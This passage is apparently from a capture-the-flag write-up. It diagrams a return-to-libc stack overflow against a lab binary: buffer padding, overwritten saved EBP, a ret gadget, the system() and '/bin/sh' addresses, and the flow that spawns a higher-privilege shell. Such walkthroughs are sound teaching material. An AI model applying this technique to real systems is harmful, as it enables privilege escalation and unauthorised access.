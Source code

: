 **Total payload size**: 96 bytes

### Memory Layout Review - What Happens During Exploitation

Here's a detailed view of the stack transformation when our payload is executed:

```

AFTER OVERFLOW - Exploited Stack Layout:
┌─────────────────────────────────────┐ 0xbffff730
│     "/bin/sh" String Address        │ ← EBP+8: 0xb7f8cc58 (system arg)
│     [0xb7f8cc58]                    │
├─────────────────────────────────────┤ 0xbffff72c
│     ret Instruction (cleanup)       │ ← EBP+4: 0x0804854b (return addr)
│     [0x0804854b]                    │   🎯 HIJACKED!
├─────────────────────────────────────┤ 0xbffff728
│     system() Function Address       │ ← EBP+0: 0xb7e6b060 (was saved EBP)
│     [0xb7e6b060]                    │   🎯 OVERWRITTEN!
├─────────────────────────────────────┤ 0xbffff724
│     ret Instruction Address         │ ← EBP-4: 0x0804854b (initial target)
│     [0x0804854b]                    │   🎯 OVERWRITTEN!
├─────────────────────────────────────┤ 0xbffff720
│     "BBBB" (EBP overwrite)          │ ← EBP-8: Arbitrary data
│     [0x42424242]                    │   🎯 OVERWRITTEN!
├─────────────────────────────────────┤ 0xbffff6e4
│     "AAAA...AAAA" (76 bytes)        │ ← EBP-76: Buffer filled with A's
│     [0x41414141] x19                │   🎯 BUFFER OVERFLOW!
│                                     │
└─────────────────────────────────────┘

Execution Flow After Overflow:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
Step 1: p() function returns
        └─> EIP = 0x0804854b (ret instruction)
        
Step 2: ret instruction executes  
        └─> Pops 0xb7e6b060 from stack into EIP
        └─> EIP now points to system() function
        
Step 3: system() function executes
        └─> Takes 0xb7f8cc58 ("/bin/sh") as argument
        └─> Spawns shell with level3 privileges
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

Stack Pointer Movement During ROP:
┌─────────────────────────────────────┐
│ ESP before ret: → 0xbffff728        │ Points to system() address
│ ESP after ret:  → 0xbffff72c        │ Points to return address  
│ ESP in system:  → 0xbffff730        │ Points to "/bin/sh" argument
└─────────────────────────────────────┘
```


---